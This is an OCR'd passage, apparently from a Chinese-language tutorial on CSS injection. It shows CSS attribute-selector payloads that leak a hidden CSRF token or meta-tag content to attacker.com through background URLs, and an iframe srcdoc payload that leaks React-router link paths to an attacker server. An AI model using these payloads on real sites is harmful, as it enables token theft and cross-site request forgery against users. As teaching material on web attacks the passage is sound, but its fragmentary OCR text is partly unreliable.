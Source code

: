 2. 偷 hidden input -- 以 csrf token 為例

```html
<form action="/action">
  <input name="username" />
  <input type="submit" />
  <input type="hidden" name="csrf-token" value="abc123" />
</form>
```

```css
meta {
  display: block;
}

input[name='csrf-token'][value^='a'] + input {
  background: url('http://attacker.com/?q=a');
}

form:has(meta[name='csrf-token'][content^='a']) + input {
  background: url('http://attacker.com/?q=a');
}
```

我要選 name 是 csrf-token 且 value 開頭是 a 的 meta tag，然後找到這個 meta tag 的下一個 input 欄位，然後偷取它的值。

3. 偷 meta tag：我們常在 meta 裏面放一些重要的資訊

```html
<meta name="csrf-token" content="abc123" />
```

## react-router 攻擊

```html
<iframe srcdoc="
  iframe /home below<br>
  <iframe name=defaultView src=/home></iframe><br>
  iframe /home above<br>
  <style>
    a[href^="/post/0"] {
      background: url(//myserver?c=0);
    }

    a[href^="/post/1"] {
      background: url(//myserver?c=1);
    }

  </style>

  react app below<br>
  <div id=root></div>
  <script type=module crossorigin src=/assets/index.7352e15a.js></script>
" height="1000px" width="500px"></iframe>
```
